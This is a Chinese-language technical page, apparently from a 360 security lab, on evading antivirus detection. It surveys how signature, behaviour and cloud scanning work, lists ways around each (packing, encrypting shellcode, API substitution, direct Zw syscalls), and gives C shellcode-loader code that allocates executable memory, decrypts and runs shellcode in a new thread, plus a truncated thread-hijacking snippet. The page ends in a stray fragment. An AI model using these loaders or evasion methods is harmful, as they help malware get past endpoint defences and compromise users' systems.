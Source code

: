 # 免杀技术大杂烩---乱拳打死老师傅
Author: Boi@Linton Lab 360

[TOC]

---

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。

对特征来讲，大多数杀毒软件会定义一个阈值，当文件内部的特征数量达到一定程度就会触发报警，也不排除杀软会针对某个EXP会限制特定的入口函数来查杀。当然还有通过md5，sha1等hash函数来识别恶意软件，这也是最简单粗暴，最容易绕过的。 针对特征的免杀较为好做，可以使用加壳改壳、添加/替换资源、修改已知特征码/会增加查杀概率的单词（比如某函数名为ExecutePayloadshellcode）、加密Shellcode等等。

CreateThread
CreateThreadEx

xxx -> ntdll.dll -> win32API 

对行为来讲，很多个API可能会触发杀软的监控，比如注册表操作、添加启动项、添加服务、添加用户、注入、劫持、创建进程、加载DLL等等。 针对行为的免杀，我们可以使用白名单、替换API、替换操作方式（如使用WMI/COM的方法操作文件）等等方法实现绕过。除常规的替换、使用未导出的API等姿势外，我们还可以使用通过直接系统调用的方式实现，比如使用内核层面Zw系列的API，绕过杀软对应用层的监控（如下图所示，使用ZwAllocateVirtualMemory函数替代VirtualAlloc）。

## Loader tech
### CreateThread
```c
int main()
{
	LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	unsigned char data[] = "\x00\x48\x83";
	char a1[] = "\xfc\xe4\xc8";

	SIZE_T Size = sizeof(data);
	
	//decrypt
	for (int i = 0; i < sizeof(a1); i++) {
		memcpy(&data[i * 3], &a1[i], 1);
	}

	RtlMoveMemory(lpvAddr, data, sizeof(data));
	DWORD pa = 0x01;
	VirtualProtect(lpvAddr, sizeof(data), 0x10, &pa);

	if (lpvAddr != NULL) {
		HANDLE s;
		s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, data, 0, 0);
		WaitForSingleObject(s, INFINITE);
	}
}
```

### ThreadHijacking
VirtualAllocEx(CreateNewProcess)
```c
char a1[] = "\xfc\xe4\xc8\x00\x41\x51...";

SIZE_T size = 0;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

ZeroMemory(&si, sizeof(si));
```

[go/shellcode_inject/virtual>>]: generate